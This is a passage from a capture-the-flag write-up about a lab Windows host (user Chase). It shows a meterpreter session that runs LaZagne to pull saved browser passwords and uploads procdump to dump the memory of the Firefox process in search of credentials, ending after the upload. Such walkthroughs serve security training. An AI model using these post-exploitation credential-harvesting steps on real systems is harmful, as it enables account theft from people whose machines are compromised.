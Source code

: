     6940  612   svchost.exe                                                
    6948  6672  php-cgi.exe                                                
    6988  6852  firefox.exe              x64   1        SUPPORTDESK\Chase  C:\Program Files\Mozilla Firefox\firefox.exe


Our Chase user is running a Firefox Browser. The idea is to see if there is
credentials stored in the browser's password manager. For that we will use
[LaZagne](https://github.com/AlessandroZ/LaZagne/).

## Lazagne

We upload the Lazagne executable using the meterpreter. Then using a shell we
launch LaZagne with the `browsers` parameter.

    :::text
    meterpreter > shell
    Process 3468 created.
    Channel 5 created.
    Microsoft Windows [Version 10.0.17763.437]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Users\Chase\Documents>.\05.exe browsers
    .\05.exe browsers

    |====================================================================|
    |                                                                    |
    |                        The LaZagne Project                         |
    |                                                                    |
    |                          ! BANG BANG !                             |
    |                                                                    |
    |====================================================================|


    [+] 0 passwords have been found.
    For more information launch it again with the -v option

    elapsed time = 0.0

We did not found any password in the browser's password storage. Let us see what
is the process memory.

## procdump

We upload procdump.exe from
[Systinternals](https://docs.microsoft.com/en-us/sysinternals/) and dump the
Firefox process memory before downloading the dump on our machine.

    :::text
    meterpreter > upload procdump.exe 06.exe
    [*] uploading  : procdump.exe -> 06.exe
    [*] Uploaded 467.19 KiB of 467.19 KiB (100.0%): procdump.exe -> 06.exe
    [*] uploaded   : procdump.exe -> 06.exe
